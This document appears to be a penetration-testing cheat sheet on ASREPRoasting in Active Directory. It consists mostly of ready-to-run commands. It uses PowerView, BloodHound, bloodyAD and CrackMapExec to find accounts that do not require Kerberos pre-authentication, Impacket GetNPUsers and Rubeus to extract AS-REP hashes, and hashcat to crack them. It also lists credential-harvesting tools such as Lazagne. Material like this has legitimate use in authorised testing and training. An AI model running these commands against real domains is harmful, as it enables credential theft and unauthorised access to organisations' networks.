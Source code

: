 # ASREPRoast

## Tools: Rubeus , Impacket-GetNPUsers

### ASREPRoast

## Find ASREPRoastable users (need creds)

 - Get-DomainUser -PreauthNotRequired -Properties SamAccountName

 - MATCH(u:User {dontreqpreauth:true}). (c:Computer). p=shortestPath((u)-[*1..]->(c)) RETURN p (Bloodhound cypher query)

## Find ASREP hash

 - Impacket-GetNPUsers DOMAIN/ -usersfile USERNAMES.TXT -format hashcat -dc-ip DC_IP -dc-host DC.DOMAIN.LOCAL -outputfile HASHES.DOMAIN.TXT

 - Rubeus.exe asreproast /format:hashcat

### Occurs when a user account has the privilege "Does not require Pre-Authentication" set.

### This means the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

## Requirements:

### Accounts with the attribute DONT_REQ_PREAUTH ( PowerView > Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose )

#### Impacket-GetNPUsers.py domain.com\john.doe -no-pass (Retrieves a TGT)

### You can also do:

#### 1) Gather domain accounts in a list

#### 2) python3 Impacket-GetNPUsers.py -dc-ip DC_IP DOMAIN/USER -outputfile /tmp/list.txt

# Enumeration (Need domain credentials)

## Windows

 - Get-DomainUser -PreauthNotRequired -verbose (Powerview)

## Linux 

 - bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(userAccountControl:1.2.840.113556.1.4.803:=4194304)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))' --attr sAMAccountName  

## Method: Impacket GetNPUsers

 - python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format hashcat -outputfile hashes.asreproast (Try all the usernames in usernames.txt)

 - python GetNPUsers.py jurassic.park/triceratops:Sh4rpH0rns -request -format hashcat -outputfile hashes.asreproast (Use domain creds to extract targets and target them)

## Alternate Method: CrackMapExec

 -  crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --asrep

## Alternate Method: ASREPRoast powershell module https://github.com/HarmJ0y/ASREPRoast

 - Get-ASREPHash -Username VPN114user -verbose

### More tools:

#### 1) Snaffler

#### 2) Lazagne

#### 3) Seatbelt

# Asreproasting

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `.\Rubeus.exe asreproast /outfile:asrep.txt`                 | Used to perform the Asreproast attack and save the extracted tickets to a file. |
| `hashcat -m 18200 -a 0 asrep.txt passwords.txt --force`      | Uses `hashcat` to crack AS-REP hashes that were saved in a file. |


